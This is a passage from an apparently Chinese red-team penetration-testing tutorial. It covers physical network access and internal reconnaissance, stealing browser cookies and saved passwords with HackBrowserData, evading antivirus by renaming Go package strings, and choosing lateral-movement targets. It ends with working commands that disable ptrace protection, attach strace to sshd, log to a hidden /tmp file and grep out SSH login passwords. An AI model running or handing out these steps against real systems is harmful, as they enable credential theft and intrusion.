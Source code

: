   * WIFI 钓鱼，比如大菠萝等设备

  * 直接连接目标公司的网线

####  **案例**

晚上下班有小伙伴进入目标单位，插入网线扫描内网，发现内网办公网络存在主机弱口令，通过PUT木马使靶机A上线。在第一次尝试扫描内网后，发现没有被拦截，猜测没有检测流量，所以后面就大胆扫描内网。

 **0x04  内网渗透**

做好权限维持之后进行信息收集，主要分为以下几步。

  1. 收集目标机器上安装了哪些软件、存在哪些进程，通过进程查看存在哪些杀毒软件。

  2. 使用HackBrowserData抓取浏览器的一些信息，例如浏览器历史记录、cookie、保存的账号密码（在使用过程中发现360安全浏览器是抓不到密码的）等，一般情况下能抓到系统的密码

  3. 翻文件，说不定会存在一些密码文档，例如xxx系统的密码，发现内网的一些网段。

上述说的 HackBrowserData工具已经被杀了，接着来说一说免杀的方法

将go引用的包名替换一下，修改特殊的字符串特征并加一个启动参数，这样基本上就不杀了

###  **护网横向移动优先攻击策略**

内网往往非常大，快速定位和找到关键节点是非常重要的，选择的主要原则为:

  * 快速掌握目标网络架构、网络设备及集权系统（堡垒机、运维管理机、性能监控系统、集中管控系统、域控等）

  * 查找配置文件、系统日志、建设方案、wiki（在wiki中可能会存在网络架构图）、托管代码等，获取敏感信息，为拿下核心设备打下基础。

###  **linux抓密码**

通过外网打点拿到一个shell之后，如果需要进一步渗透，拿下这台主机的密码更是重中之重，内网渗透的本质就是信息收集，而登录凭证的收集是信息收集的重点。

####  **1.利用strace抓密码**

strace是linux中的调试工具，可通过附加到进程来调试正在运行的进程， strace记录一个正在运行的程序正在执行的系统调用以及参数。

    
    
    # 查看  
    cat /proc/sys/kernel/yama/ptrace_scope  
    # 修改  
    echo 0 > /proc/sys/kernel/yama/ptrace_scope 或者 sysctl kernel.yama.ptrace_scope=0

root权限执行

    
    
    (strace -f -F -p `ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}` -t -e trace=read,write -s 32 2> /tmp/.sshd.log &)

查找用户名和密码的正则表达式为read\\(6, ".+\\\0\\\0\\\0\\\\.+"

    
    
    # 查找用户名和密码  
    grep -E 'read\(6, ".+\\0\\0\\0\\.+"' /tmp/.sshd.log
